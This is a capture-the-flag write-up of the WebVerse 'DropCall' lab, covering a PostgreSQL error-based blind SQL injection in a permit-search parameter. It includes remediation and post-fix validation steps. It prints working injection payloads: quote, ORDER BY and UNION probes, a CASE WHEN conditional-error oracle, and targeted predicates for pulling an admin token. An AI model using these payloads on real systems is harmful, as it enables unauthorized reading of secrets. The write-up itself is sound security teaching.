> **Publication note:** This article covers an authorized lab reproduction completed on 3 August 2026. The temporary host, reusable cookies, private file paths, and literal flag are not published. The public result is shown as `WEBVERSE{REDACTED}`.

## Executive Summary

The DropCall permit-search endpoint accepted user-controlled input through the `park` query parameter. A normal park name returned five permit records, while an unknown but syntactically benign value returned the expected no-results state. Adding a single quote changed the result to HTTP 500, providing an initial SQL-processing signal but not, by itself, proof of SQL injection.

The SQL behavior was confirmed step by step. `ORDER BY 1` returned HTTP 200, while `ORDER BY 2` returned HTTP 500, pointing to a one-column result in the affected query branch. A matching `UNION SELECT NULL` returned HTTP 200. A PostgreSQL `CASE WHEN` expression then turned true and false conditions into a repeatable HTTP 200/500 signal. I repeated that check before a focused Python script recovered `admin_token` from `public.internal_config`. WebVerse accepted the value and marked the challenge solved.

> **CONFIRMED FINDING**
>
> The vulnerability is a PostgreSQL SQL injection in `GET /permits?park=...`. Untrusted input can alter query structure, create a repeatable conditional-error oracle, and disclose a sensitive configuration value without that value appearing directly in the normal response body.

## 1. Report Profile

| FIELD | VALUE |
| --- | --- |
| Platform | WebVerse |
| Lab | DropCall |
| Difficulty | Medium |
| Status | Solved / Verified |
| Reproduction date | 3 August 2026 |
| Affected endpoint | `GET /permits` |
| Injectable parameter | `park` |
| Database behavior | PostgreSQL-compatible conditional errors |
| Primary weakness | CWE-89: SQL Injection |
| Evidence | Caido Replay, focused Python extraction, Chromium solved-state confirmation |

### Verified Attack Chain

```text
GET /permits?park=yosemite
  > HTTP 200, five permit records
Unknown benign park value
  > HTTP 200, normal no-results state
Single-quote probe
  > HTTP 500, generic search-unavailable response
ORDER BY 1 / ORDER BY 2 differential
  > HTTP 200 / HTTP 500, consistent with one selected column
UNION SELECT NULL
  > HTTP 200, one-column UNION compatibility
Conditional PostgreSQL error oracle
  > TRUE = HTTP 200; FALSE = HTTP 500, repeated twice
Targeted extraction from public.internal_config
  > admin_token recovered as WEBVERSE{REDACTED}
WebVerse submission
  > CHALLENGE SOLVED
```

## 2. Scope and Evidence Boundary

Testing was limited to the authorized DropCall challenge instance and the public `park` input. The proof used read-only predicates and a targeted extraction of the single configuration entry required to solve the lab. No destructive SQL, data modification, privilege escalation, broad table dumping, or unrelated endpoint testing was performed.

All requests, screenshots, extraction statistics, and solved-state evidence below belong to the fresh 3 August 2026 reproduction. No hostname, response, flag, or extracted value from a previous instance is used as evidence for this case.

The screenshots are primary evidence for the observable request/response chain. The narrative makes only the conclusions supported by that chain.

## 3. Step-by-Step Reproduction

This section keeps every control, payload, expected HTTP result, screenshot, and conclusion beside the step where it was used. Temporary hosts, reusable cookies, the literal flag, local command, and private file paths are not published. No `curl` command was run, so the article does not invent one afterward.

### 3.1 P-01 / P-02: Normal and Benign-Negative Baselines

P-01 recorded the normal request with a known park value.

```http
GET /permits?park=yosemite HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** HTTP 200 with five active Yosemite permit records. This is the normal baseline and does not prove SQL injection.



**Figure 1: Valid baseline.** A known park follows the expected successful search path.

P-02 used a syntactically benign value that did not exist in the application dataset.

```http
GET /permits?park=__dropcall_no_match_7f29c1__ HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** HTTP 200 with `No active permits for that park`, not the generic search-failure page.



**Figure 2: Benign negative control.** An ordinary lookup miss remains on the normal HTTP 200 path, separating empty results from the later SQL-related failure channel.

### 3.2 P-03: Single-Quote Error

P-03 appended one apostrophe to the otherwise valid value. Caido encoded it as `%27` in the request target.

```text
yosemite'
```

```text
park=yosemite%27
```

**Expected result:** HTTP 500 with `Search temporarily unavailable`.



**Figure 3: Quote differential.** The quote produces a repeatable failure distinct from the benign no-results control. This is a strong SQL-context signal, but not final proof: a quote can also trigger non-SQL parser or application failures.

### 3.3 P-04 / P-05: Projection-Width Differential

The next controls compared adjacent `ORDER BY` positions while keeping the surrounding request contract fixed. The trailing SQL comment space is preserved as the final `%20` in each encoded form.

**P-04: First projection position.**

```text
yosemite' ORDER BY 1 --
```

```text
park=yosemite%27%20ORDER%20BY%201%20--%20
```

**Expected result:** HTTP 200 on the normal no-results path.



**Figure 4: Valid position.** The tested branch accepts the first sort position.

**P-05: Adjacent projection position.**

```text
yosemite' ORDER BY 2 --
```

```text
park=yosemite%27%20ORDER%20BY%202%20--%20
```

**Expected result:** HTTP 500 with the generic failure page.



**Figure 5: Invalid position.** The adjacent 200/500 differential is consistent with this tested query branch exposing one selected column.

This comparison shows that the tested branch returns one column. It does not identify the original column name, type, schema, or database privileges.

### 3.4 P-06: One-Column UNION Compatibility

P-06 used a non-destructive expression matching the inferred width.

```text
yosemite' UNION SELECT NULL --
```

```text
park=yosemite%27%20UNION%20SELECT%20NULL%20--%20
```

**Expected result:** HTTP 200 on the normal no-results path.



**Figure 6: UNION compatibility.** The successful response confirms controllable SQL structure and a compatible one-column UNION shape, not an in-band output channel.

Together, P-03 through P-06 remove the principal false-positive explanation that the HTTP 500 response came from generic input validation alone.

### 3.5 P-07 / P-08: Repeated Conditional-Error Oracle

Because the application did not print arbitrary query output, the next check used PostgreSQL `CASE WHEN`. Its false branch tries to cast the database name to an integer and triggers an error.

```sql
CASE
  WHEN (<PREDICATE>)
  THEN 1
  ELSE CAST(current_database() AS integer)
END
```

**P-07: Known-true control.**

```sql
yosemite' UNION SELECT CASE WHEN (1=1) THEN 1 ELSE CAST(current_database() AS integer) END --
```

**Expected result:** the integer branch completes with HTTP 200.



**Figure 7: TRUE branch.** A known-true predicate maps to the normal success channel.

**P-08: Known-false control.**

```sql
yosemite' UNION SELECT CASE WHEN (1=2) THEN 1 ELSE CAST(current_database() AS integer) END --
```

**Expected result:** PostgreSQL evaluates the failing cast and the application returns HTTP 500.



**Figure 8: FALSE branch.** A known-false predicate maps to the generic failure channel.

Both P-07 and P-08 were repeated once with the same outcome before extraction.

| Predicate result | Database branch | HTTP result |
| --- | --- | --- |
| TRUE | Return integer `1` | 200 |
| FALSE | Trigger invalid integer cast | 500 |

This is an error-based blind oracle: the secret is not returned directly, but one Boolean fact can be learned from each stable HTTP outcome.

### 3.6 P-09: Objective-Relevant Relation Confirmation

P-09 tested only the known objective-relevant relation and did not perform broad schema enumeration.

```sql
yosemite' UNION SELECT CASE WHEN (EXISTS(SELECT 1 FROM information_schema.tables WHERE table_schema='public' AND table_name='internal_config')) THEN 1 ELSE CAST(current_database() AS integer) END --
```

**Expected result:** the TRUE channel, HTTP 200.



**Figure 9: Relation confirmation.** The predicate confirms that `public.internal_config` exists and can be queried through the vulnerable parameter. It does not return any row value.

### 3.7 P-10: Target Key and Format Confirmation

The target was narrowed to `admin_token` and the expected challenge-value shape before character extraction.

```sql
yosemite' UNION SELECT CASE WHEN (EXISTS(SELECT 1 FROM public.internal_config WHERE k='admin_token' AND left(value,9)='WEBVERSE{' AND right(value,1)='}')) THEN 1 ELSE CAST(current_database() AS integer) END --
```

**Expected result:** the TRUE channel, HTTP 200, confirming the key and `WEBVERSE{...}` format while leaving the value undisclosed.



**Figure 10: Target selection.** The predicate identifies the required configuration record and bounds the subsequent extraction to the challenge value.

### 3.8 P-11 / P-12: Targeted Blind Extraction

P-11 was the exact scalar query used by the focused Python extractor.

```sql
SELECT value
FROM public.internal_config
WHERE k = 'admin_token'
LIMIT 1
```

P-12 remains described rather than published as a full script. The executed extractor:

- rechecked the known-true and known-false controls;
- queried only the P-11 scalar;
- used `get_byte(convert_to(..., 'UTF8'), offset)` with binary-search comparisons and exact-equality checks;
- counted every request;
- stopped immediately at the closing flag delimiter;
- withheld the literal result, local invocation, temporary host binding, and private artifact paths.

The fresh run completed in 301 requests.



**Figure 11: Focused extraction.** The extractor recovered `WEBVERSE{REDACTED}` and terminated at the explicit closing brace.

The request count belongs only to this reproduction; it depends on the character strategy and actual value length and is not a universal performance property of the vulnerability.

### 3.9 WebVerse Solved State

I submitted the recovered value to WebVerse. The platform accepted it and displayed the solved state.



**Figure 12: WebVerse validation.** The platform accepted the extracted value for this lab instance.

### 3.10 Final Result and Stop Point

The proof comes from the whole sequence: normal requests, a quote error, the one-column boundary, a matching UNION, repeated true/false checks, targeted table and key selection, focused extraction, and WebVerse acceptance. The copyable payloads help readers repeat the steps, but the responses are what confirm them.

> **WHERE TESTING STOPPED**
>
> Testing stopped after recovery and acceptance of the single `admin_token` objective. No destructive SQL, write action, broad schema or table dump, privilege escalation, operating-system execution, unrelated endpoint testing, or synthetic curl verification was performed.

## 4. Vulnerability Classification

| Attribute | Verified value |
| --- | --- |
| Primary class | PostgreSQL error-based blind SQL injection |
| Root cause | User-controlled `park` input is incorporated into SQL structure without safe parameter binding |
| Affected route | `GET /permits` |
| Observable oracle | HTTP 200 for TRUE; HTTP 500 for FALSE |
| Confirmed read target | `public.internal_config`, key `admin_token` |
| Confirmed effect | Unauthorized recovery of one sensitive configuration value |
| Standards mapping | CWE-89 |

### Why CWE-89 Is the Correct Mapping

[CWE-89](https://cwe.mitre.org/data/definitions/89.html) describes improper neutralization of special elements used in an SQL command. The evidence here goes beyond a suspicious error: attacker-controlled input changed the query's projection behavior, participated in a compatible UNION, evaluated PostgreSQL Boolean expressions, and disclosed a database-backed value through a conditional error channel.

No secondary CWE is needed for the central weakness. Sensitive configuration disclosure is recorded as an impact, while CWE-89 remains the root-cause classification.

## 5. False-Positive Controls

The finding uses several checks instead of relying on one unusual response:

1. A valid park returned the normal result set.
2. A harmless unknown park showed that lookup misses still return HTTP 200.
3. A quote produced a distinct HTTP 500 signal.
4. Adjacent `ORDER BY` positions created the expected valid/invalid projection differential.
5. `UNION SELECT NULL` matched the inferred one-column shape.
6. Known-true and known-false predicates produced stable 200/500 branches twice.
7. A targeted extractor recovered a correctly formatted value.
8. WebVerse accepted that value.

This chain supports SQL injection and targeted data disclosure. It does not support claims of write access, operating-system command execution, unrestricted database compromise, or access to data that was not tested.

## 6. Impact

An unauthenticated user who can reach the permit-search endpoint can use database syntax in `park` to infer Boolean facts and recover sensitive application configuration. In the authorized reproduction, the confirmed impact was read access to the `admin_token` value required to solve the challenge.

In a production system, the impact would depend on the database account's permissions and the data reachable from the vulnerable query. Plausible consequences include disclosure of credentials, tokens, customer data, or internal operational metadata. Those broader outcomes were not tested here and are not presented as confirmed effects.

## 7. Remediation

### Parameterize the Query

Use a database driver or query layer that sends the park value as a bound parameter. The SQL statement must remain fixed while the user value is handled strictly as data. Escaping or blocking individual characters is not a durable substitute for parameterization.

### Reduce Database Privileges

Run the permit-search feature with a database role that can access only the tables and operations it requires. It should not be able to read sensitive configuration relations such as `internal_config`.

### Separate Secrets from Queryable Application Data

Store operational secrets in a dedicated secret-management system or another access-controlled boundary. A public search feature's database identity should never be able to retrieve reusable tokens.

### Normalize Error Handling

Return a consistent application response for backend query failures and record the detailed error only in protected server logs. Uniform errors reduce information leakage, although they do not repair the SQL injection itself.

### Monitor Suspicious Query Patterns

Alert on repeated requests containing SQL metacharacters, UNION/ORDER BY probes, rapidly changing predicates, or high-frequency 200/500 alternation. Monitoring is a detection layer, not a replacement for safe query construction.

## 8. Validation After the Fix

After remediation, repeat the same checks:

- valid and unknown park values should retain their intended application behavior;
- quotes, `ORDER BY`, UNION syntax, and `CASE WHEN` text should be treated as literal data;
- no SQL-specific 200/500 differential should remain;
- the permit-search database role should be unable to read `public.internal_config`;
- detailed database errors should not reach the client;
- the targeted extractor should no longer produce a true/false signal.

## Conclusion

DropCall contained a PostgreSQL error-based blind SQL injection in the public `park` parameter. Normal requests, SQL errors, the one-column result, repeated true/false checks, focused extraction, and WebVerse acceptance confirm the finding. Testing stopped after recovering the lab's `admin_token`; no destructive action or broader compromise is claimed.
